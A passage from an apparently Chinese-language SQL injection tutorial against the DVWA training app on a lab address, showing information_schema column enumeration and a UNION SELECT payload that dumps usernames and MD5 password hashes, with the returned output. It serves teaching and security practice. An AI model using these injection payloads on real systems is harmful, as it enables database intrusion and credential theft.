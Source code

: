 
mysql中的查询结果

```
mysql> SELECT 1,concat(column_name) from information_schema.columns where table_name=0x7573657273;
+---+---------------------+
| 1 | concat(column_name) |
+---+---------------------+
| 1 | user_id             |
| 1 | first_name          |
| 1 | last_name           |
| 1 | user                |
| 1 | password            |
| 1 | id                  |
| 1	|...				  |	
+---+---------------------+
45 rows in set (0.00 sec)

```

##获取当前数据库users表的内容

http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,concat(user,0x3a,password)%20from%20users%20%23&Submit=%C8%B7%B6%A8


```
ID: -1' UNION SELECT 1,concat(user,0x3a,password) from users #
First name: 1
Surname: admin:7fef6171469e80d32c0559f88b377245

ID: -1' UNION SELECT 1,concat(user,0x3a,password) from users #
First name: 1
Surname: gordonb:e99a18c428cb38d5f260853678922e03

ID: -1' UNION SELECT 1,concat(user,0x3a,password) from users #
First name: 1
Surname: 1337:8d3533d75ae2c3966d7e0d4fcc69216b

ID: -1' UNION SELECT 1,concat(user,0x3a,password) from users #
First name: 1
Surname: pablo:0d107d09f5bbe40cade3de5c71e9e9b7

ID: -1' UNION SELECT 1,concat(user,0x3a,password) from users #
First name: 1
Surname: smithy:5f4dcc3b5aa765d61d8327deb882cf99
```

url解码后：

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1' UNION SELECT 1,concat(user,0x3a,password) from users #&Submit=确定
```


mysql中的查询结果：
